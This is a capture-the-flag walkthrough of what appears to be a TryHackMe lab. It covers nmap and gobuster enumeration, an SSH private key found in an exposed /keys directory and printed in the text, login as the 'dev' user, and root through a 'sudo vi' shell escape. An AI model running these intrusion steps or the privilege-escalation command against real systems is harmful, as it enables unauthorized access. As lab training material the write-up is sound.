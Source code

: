 ## NMAP

`nmap 10.10.245.20`

```bash
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-27 19:35 -0500  
Nmap scan report for 10.10.245.20  
Host is up (0.18s latency).  
Not shown: 998 closed tcp ports (conn-refused)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 17.58 seconds
```

## Gobuster

`gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt -u http://10.10.245.20`

```bash
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://10.10.245.20  
[+] Method:                  GET  
[+] Threads:                 10  
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/.php                 (Status: 403) [Size: 277]  
/.html                (Status: 403) [Size: 277]  
/.htm                 (Status: 403) [Size: 277]  
/assets               (Status: 301) [Size: 313] [--> http://10.10.245.20/assets/]  
/.                    (Status: 200) [Size: 886]  
/.htaccess            (Status: 403) [Size: 277]  
/.phtml               (Status: 403) [Size: 277]  
/.htc                 (Status: 403) [Size: 277]  
/.html_var_DE         (Status: 403) [Size: 277]  
/keys                 (Status: 301) [Size: 311] [--> http://10.10.245.20/keys/]  
/server-status        (Status: 403) [Size: 277]  
/.htpasswd            (Status: 403) [Size: 277]  
/.html.               (Status: 403) [Size: 277]  
/.html.html           (Status: 403) [Size: 277]  
/.htpasswds           (Status: 403) [Size: 277]  
/.htm.                (Status: 403) [Size: 277]  
/.htmll               (Status: 403) [Size: 277]  
/.phps                (Status: 403) [Size: 277]  
/.html.old            (Status: 403) [Size: 277]  
/.ht                  (Status: 403) [Size: 277]  
/.html.bak            (Status: 403) [Size: 277]  
/.htm.htm             (Status: 403) [Size: 277]  
/.hta                 (Status: 403) [Size: 277]  
/.htgroup             (Status: 403) [Size: 277]  
/.html1               (Status: 403) [Size: 277]  
/.html.LCK            (Status: 403) [Size: 277]  
/.html.printable      (Status: 403) [Size: 277]  
Progress: 20888 / 63089 (33.11%)^C  
[!] Keyboard interrupt detected, terminating.  
Progress: 20910 / 63089 (33.14%)
```

`/assets`

![Pasted image 20250627194609.png](Images/Pasted%20image%2020250627194609.png)

Nothing useful.

`/keys`

![Pasted image 20250627194651.png](Images/Pasted%20image%2020250627194651.png)

We check `key_09`

We find an SSH private key.

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAtYYVwOXJatC6YlBfF3XOsjcGdskwS9iLIqCbSjN2BqI2EiMYpL52
wZi+jxl94MTvMmn4U/KHcWdkD7SMCB9LmJUy9BiX/nxbGE8A/BCiRQ9gS45jz24sWLHh+r
AGd4evgU2DPBUkdZY23H+9aSp2G9tl7kgbkxNvVnk0yL+P73muiaWt2bSZQV6AzzkVRTsW
A82ILpSbl4fyVFfIFHnw85fUc8w6MJTzAAlW2KPU848sxkeJSyCRn3YNZgh6LN1Jq2ULhT
ma3lQHmJqBBtH8u3m/JotskwMoMUE1kdHC9jHLPmoUBA/1dgnYDSWNfiHLizKAIrPS8gVz
EMJsxwseI3LqxEnAraFEnSfRBeccmT9DL3DYEZIePG7uXGu9mPrAY2RCtv5ddt8s718F8L
0GzyU6JZjpTnizXK1EYknFBehJoFDAGxfiG/YVOPLDWCeJnXoCnEiuq6l4KcJPdNGXwAlW
oEw/lqX8zZQS3HJWqhpLHb9wyB081TNcZMBB3bevAAAFiL4LA4u+CwOLAAAAB3NzaC1yc2
EAAAGBALWGFcDlyWrQumJQXxd1zrI3BnbJMEvYiyKgm0ozdgaiNhIjGKS+dsGYvo8ZfeDE
7zJp+FPyh3FnZA+0jAgfS5iVMvQYl/58WxhPAPwQokUPYEuOY89uLFix4fqwBneHr4FNgz
[REDACTED]LKxh1lcwnD7
2QPUEZhLgwAzHCJiDwANrBNGuBdq+lAAAAwQDMWkUspYPHYDne9lsOba8aKshpIqA2cX7F
GOAocIDJ4TTjixXBxf+1n/iRtuZlIIQTl8uDNufYnqhghu0J/Q79UBdJN/6skvESYsdH1J
z3qU7hdnfwrlHn3pik5iZoXM1tmc0LB1/LO8NLn0KNYzg29iEtyXdZlewZiM5PihbjmojA
AvCElrOR5Zg+aLxuBye5oAiRbyLDn3+D+TH0694ftgdSnNj65ePqWN4O9vvwyIXGbSMlxw
qdN8UUt1jaqcMAAAASZGV2QHRyeWhhY2ttZS0yNDA0AQ==
-----END OPENSSH PRIVATE KEY-----
```

We can generate the public key:

`ssh-keygen -y -f sshkey`

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1hhXA5clq0LpiUF8Xdc6yNwZ2yTBL2IsioJtKM3YGojYSIxikvnbBmL6PGX3gxO8yafhT8odxZ2QPtIwIH0uYlTL0GJf+fFsYTwD8EKJFD2BLjmPPbixYseH6sAZ3h6+BTYM8FSR1ljbcf  
71pKnYb22XuSBuTE29WeTTIv4/vea6Jpa3ZtJlBXoDPORVFOxYDzYgulJuXh/JUV8gUefDzl9RzzDowlPMACVbYo9TzjyzGR4lLIJGfdg1mCHos3UmrZQuFOZreVAeYmoEG0fy7eb8mi2yTAygxQTWR0cL2Mcs+ahQED/V2CdgNJY1+IcuLMo  
Ais9LyBXMQwmzHCx4jcurEScCtoUSdJ9EF5xyZP0MvcNgRkh48bu5ca72Y+sBjZEK2/l123yzvXwXwvQbPJTolmOlOeLNcrURiScUF6EmgUMAbF+Ib9hU48sNYJ4mdegKcSK6rqXgpwk900ZfACVagTD+WpfzNlBLcclaqGksdv3DIHTzVM1x  
kwEHdt68= dev@tryhackme-2404
```

Now we know the user account and can login:

`dev@IP`

`echo 'PRIVATE_KEY' > sshkey`

`ssh -i sshkey dev@10.10.245.20`

Now we got the `user.txt`

## Privilege Escalation
`sudo -l`

```bash
Matching Defaults entries for dev on tryhackme-2404:  
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty  
  
User dev may run the following commands on tryhackme-2404:  
   (ALL) NOPASSWD: /usr/bin/vi
```

We check [GTFOBins](https://gtfobins.github.io/) for /usr/bin/vi

````bash
sudo vi -c ':!/bin/sh' /dev/null
````

And we're root. Easier than the last room.

`cat root.txt`



``
